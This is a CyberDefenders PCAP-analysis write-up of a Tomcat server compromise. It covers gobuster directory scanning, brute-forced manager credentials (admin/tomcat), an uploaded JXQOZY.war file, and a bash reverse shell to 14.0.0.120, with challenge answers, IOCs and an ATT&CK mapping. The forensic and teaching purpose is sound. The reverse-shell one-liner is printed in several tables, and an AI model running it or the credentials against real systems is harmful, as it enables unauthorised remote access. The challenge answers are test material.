










# Web Server Takeover PCAP Analysis

| Field | Value |
|---|---|
| Date | 05-06-2026 |
| Platform | CyberDefenders |
| Category | PCAP Analysis |
| Difficulty | Medium |
| ATT&CK TTPs | T1595.003 · T1110.001 · T1059 ·  T1505.003 |
| Tools Used | Wireshark · Open Trade Exchange |
| Time Spent | 3 hours 26 minutes |

---

### Executive Summary

An Apache server was compromised by an attacker from outside of the intranet.
The attacker attempted to enumerate and uncover directories and files on the web server and was able to identify the server admin interface.
He used the brute-forcing technique to gain access to the login credentials and authenticate successfully into the administrative interface of the web server.
The attacker uploaded a malicious file to establish a reverse-shell on the server and issued commands to ensure persistence.

---

## Artifacts / Environment

**Files provided:**
- `web server.pcap` - 2.2 MB

**Attacker identified:**
- IP Address: 14.0.0.120
- MAC Address: 00:0c:29:4b:ae:ba

**Victim identified:**
- IP Address: 10.0.0.112 (Tomcat Apache server)
- MAC Address: 00:0c:29:4d:6a:d0

---

## Scope
**Investigation questions:**
1. Identify the source IP address responsible for initiating potential scanning behaviour on the server.
2. Identify the country from which the attacker's activities originated.
3. From the attacker's active scan, which of the ports provided access to the web server admin panel?
4. Which tools can you identify from the analysis that assisted the attacker to enumerate and uncover directories and files on the web server?
5. Which specific directory related to the admin panel did the attacker uncover?
6. Determine the correct username and password that the attacker successfully used to login.
7. Identify the name of the malicious file from the captured data the attacker used to establish a reverse shell.
8. Identify the specific command the attacker scheduled to run to maintain persistence on the compromised server.

**Initial hypotheses:**
- Hypothesis 1: The attacker discovered an exposed perimeter to the Apache server and initiated the attack from outside the intranet.
- Hypothesis 2: The attack was initiated from an internal host suggesting the attacker had already established a foothold within the intranet, moved laterally to the Apache server.
- Hypothesis 3: The attacker leveraged network assessable web services or the admin endpoint on the web server to achieve unauthorized command execution.

---

## Investigation

### Step 1 - Initial Triage (Conversations)

Why:

To get a clear map of what internal or external IP addresses were involved in exchanging massive amount of data or establishing connection with the Tomcat server. This is would be be the primary suspects.

Action:

```Statistics → Conversations```



Interpretation: 

A high traffic was seen between two IP Addresses `14.0.0.120` and `10.0.0.112` with over 9000 packets of communication between both sides.
Massive amount of packets must have been sent from the attacker machine to the server to get data or establish connections indicating a potential scanning or discovering behaviour from the attacker.

---

### Step 2 - Identify the Protocols In Use (Protocol Hierarchy)

Why:

To get a top-level map of protocols that were present to understand the kind of activities that could have taken place between the IP Addresses.



Interpretation:

A high percentage of TCP traffic lacking an application layer protocol indicates port scanning or raw reverse shell.

### Finding: Attack Origin (Using Open Trade Exchange)

**Why:** To identify the country where the attacker's activities came from.


**IP was submitted:** `14.0.0.120` → `otx.alienvault.com`



### Finding: Port Responsible for Unauthorized Access to Admin Panel on Server

**Why:**

To find the port that granted the attacker access to admin panel after a successful login.

```http.authorization```



### Finding: Tool Used by Attacker to Enumerate and Uncover Files and Directory on Server

What I found:

The attacker used the `gobuster` tool to attempt to enumerate and uncover files on the web server from open ports he discovered already.

Interpretation:

This activity was able to give the attacker a lead to the admin interface where he exploited the authentication into the server.



### Finding: Username and Password Used By Attacker To Log In

What I found:

Attacker brute-forced login credentials and eventually gained access to the server admin panel. The login credentials were:

- Username: `admin`
- Password: `tomcat`




### Finding: Malicious File Upload

**Why:**

To find a malicious file upload by the attacker after gaining full access to the web server admin panel.

```http.request.method eq POST```



What I found:



A malicious file named `JXQOZY.war` uploaded to the server.

Interpretation:

The malicious file uploaded executed in the server in order to help establish a reverse shell to the attacker's machine.

The malicious file

### Finding: Attacker's Commands to Ensure Persistence on The Machine

Why:
To fetch the activities due to established reverse shell connection between the attacker's machine and the web server.

Command used:
`tcp.flags.syn eq 1 and tcp.flags.ack eq 1) and ip.src eq 14.0.0.120`



What I found on TCP Stream:

Specific command executed for persistence:

```bash
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
```



Interpretation:

Attacker was able to establish persistence on the Apache web server in order to conduct further attacks like lateral movement to other workstations on the network or exfiltrate data from the server.

## Challenge Answers

| Q | Question | Answer |
|---|---|---|
| Q1 | IP address showing potential scanning behaviour | `14.0.0.120` | 
| Q2 | Country origin of attack | `China` |
| Q3 | Port responsible for attacker's access to admin panel | `8080` |
| Q4 | Tools that allowed attacker to enumerate and uncover files and directories | `gobuster` |
| Q5 | Directory related to the admin panel that the attacker uncovered | `manager` |
| Q6 | Credentials used by attacker to login | Username: `admin`, Password: `tomcat` |
| Q7 | File name used to establish a reverse shell | `JXQOZY.war` |
| Q8 | Command run to maintain persistence on compromised server | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` |

---

## Timeline of Events

| Timestamp (UTC) | Event | Source | ATT&CK TTP |
|---|---|---|---|
| 2023-09-10 18:19:19 | `14.0.0.120` begins to scan files and discover files and directories on web server at `10.0.0.112`| PCAP | T1595.003 |
| 2023-09-10 18:20:05 | Attacker successfully gains access to admin interface by brute-forcing technique | PCAP | T1110.001 |
| 2023-09-10 18:22:14 | Attacker uploads malicious file to web server | PCAP | - |


## Indicators of Compromise (IOCs)

| Type | Value | Context |
|---|---|---|
| IP | `14.0.0.120` | Scanning Machine or attacker host |
| IP | `10.0.0.112` | Compromised host |
| File | `JXQOZY.war` | Malicious file uploaded to establish a reverse shell |
| Tool | `gobuster` | Used to enumerate and uncover assets on web server |
| Command | `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` | Command executed to maintain persistence |
| Credentials | Username: `admin`, Password: `tomcat` | Brute-forced by the attacker to gain access to admin panel |

---

## ATT&CK Mapping
| Tactic | Technique ID | Technique Name | Observed Behaviour |
|---|---|---|---|
| Reconnaissance | T1595.003 | Wordlist Scanning | Files and Directories were enumerated and uncovered to find admin panel using Gobuster |
| Credential Access | T1110.001 | Brute Force: Password Guessing | The attacker repeatedly targeted the admin panel of the web server gaining access due to a weak authentication system |
| Execution | T1059 | Command and Scripting Interpreter | Uploaded malicious file executed to spawn a reverse shell to attacker's machine |
| Persistence | T1505.003 | Server Software Component: Web Shell | The attacker issued specific commands to maintain persistent on compromised web server |

---

## Lessons Learned

1. `Gobuster` is a tool used by the attacker to scan and uncover files and directories on the web server. The activity trail for this tool was in the PCAP and all it needed was a knowledge of what `User-Agent` keeps track of when TCP for a packet is viewed.

2. Activities from a successful reverse shell connection between an attacker's machine and a compromised server should be found out using the knowledge that both hosts had a syn-ack connection for post-reverse shell activities to be possible.

3. In the protocol Hierarchy, if there are high traffic of TCP connections without an application layer protocol like TSL, SMTP and the rest, it reflects that the attack could have been on plain-text, non-standard port(s) - unencrypted data would be easy to read.